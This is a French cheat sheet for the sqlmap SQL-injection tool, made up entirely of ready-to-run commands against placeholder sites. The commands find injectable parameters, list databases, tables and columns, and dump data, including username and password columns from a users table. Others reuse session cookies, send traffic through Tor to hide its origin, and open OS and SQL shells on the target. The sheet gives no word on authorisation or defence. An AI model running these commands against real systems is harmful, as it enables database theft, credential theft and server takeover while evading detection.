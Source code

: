 ## Cheat sheet
Commandes automatiques
Scanner une url de manière automatique

sqlmap -u "http://siteatester.fr"

Scanner une url avec un paramètre GET

sqlmap -u "http://siteatester.fr?id=1"

Scanner une url avec des paramètres POST

sqlmap -u "http://siteatester.fr" --data=PARAMETRE1=VALEUR1&PARAMETRE2=VALEUR2

Préciser les paramètres
Préciser le paramètre sur lequel réaliser l’injection

sqlmap -u "http://siteatester.fr?param1=valueur1&param2=valueur2” -p param1

Préciser le type de base de données (mysql)

sqlmap -u "http://siteatester.fr" --dbms=mysql

Listage
Lister les bases de données

sqlmap -u "http://siteatester.fr?id=1" --dbs

Lister les tables d’une base spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" --tables

Lister les colonnes d’une table spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" -T "nom_de_la_table" --columns

Dump
Dump tout ce qu’SQLMap trouve

sqlmap -u "http://siteatester.fr" --dump

Dump une base de données spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" --dump

Dump une table spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" -T "nom_de_la_table" --dump

Dump seulement des colonnes spécifiques d’une table

sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump

Cookies
Utiliser des cookies dans la requête

sqlmap -u "http://siteatester.fr" --cookie="COOKIE1=VALEUR1;COOKIE2=VALEUR2"

Proxy
Passer le trafic de SQLMap via un proxy

sqlmap -u "http://siteatester.fr" --proxy=http://proxy:port

Passer le trafic de SQLMap via Tor

sqlmap -u "http://siteatester.fr" --tor --tor-type=SOCKS5 --check-tor

Reverse Shell
Obtenir un reverse shell OS

sqlmap -u "http://siteatester.fr" --os-shell

Obtenir un shell SQL

sqlmap -u "http://siteatester.fr" --sql-shell
